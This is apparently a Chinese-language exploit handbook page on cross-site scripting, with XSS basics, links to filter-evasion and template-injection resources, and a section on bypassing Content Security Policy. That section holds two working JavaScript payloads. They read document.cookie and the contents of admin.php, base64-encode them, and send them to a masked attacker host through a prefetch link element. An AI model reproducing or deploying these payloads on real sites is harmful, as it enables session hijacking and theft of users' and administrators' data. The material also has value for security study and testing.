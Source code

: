 # EXP手册-Cross-site scripting
## 基础知识
XSS攻击可以分为3类：存储型（持久型）、反射型（非持久型）、基于DOM。  
```
<scrpit>alert('XSS')</script>   
```
### 0x01 Client-Side Template Injection实现XSS攻击
- [XSS without HTML: Client-Side Template Injection with AngularJS](https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs)
关键词：客户端模板注入、AngularJS
## Bypass
### 0x02 Bypass Filter
- XSS online利用平台：https://xsspt.com/
- [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
### 0x03 Bypass CSP
同源：协议、域名、端口相同。    
- CSP online检测工具：https://csp-evaluator.withgoogle.com/

- [同源策略详解及绕过方法](http://zjw.dropsec.xyz/CTF/2016/12/13/%E5%90%8C%E6%BA%90%E7%AD%96%E7%95%A5%E8%AF%A6%E8%A7%A3%E5%8F%8A%E7%BB%95%E8%BF%87-%E8%BD%AC.html)

利用```<link>```绕过CSP，发送cookie
```
<script>
$.get("admin.php", function(data){
  var content = window.btoa(document.cookie).concat(window.btoa(data));
  var n0t = document.createElement("link");
  n0t.setAttribute("rel", "prefetch");
  n0t.setAttribute("href", "http://***/".concat(content));
  document.head.appendChild(n0t);
});
</script>
```
在上述基础上访问其他页面
```
<script>
getText = function(url, callback) 
{
    var request = new XMLHttpRequest();
    request.onreadystatechange = function()
    {
        if (request.readyState == 4 && request.status == 200)
        {
            callback(request.responseText); 
        }
    }; 
    request.open("GET", url);
    request.send();
}
function mycallback(data) {
  var content =concat(window.btoa(data));
  var n0t = document.createElement("link");
  n0t.setAttribute("rel", "prefetch");
  n0t.setAttribute("href", "http://*****/".concat(content));
  document.head.appendChild(n0t);
}
getText("admin.php", mycallback); 
</script>

```
## Reference
- [AMP HTML 关于XSS的CTF WRITE UP](https://xz.aliyun.com/t/2347)
AMP获取cookies的方法
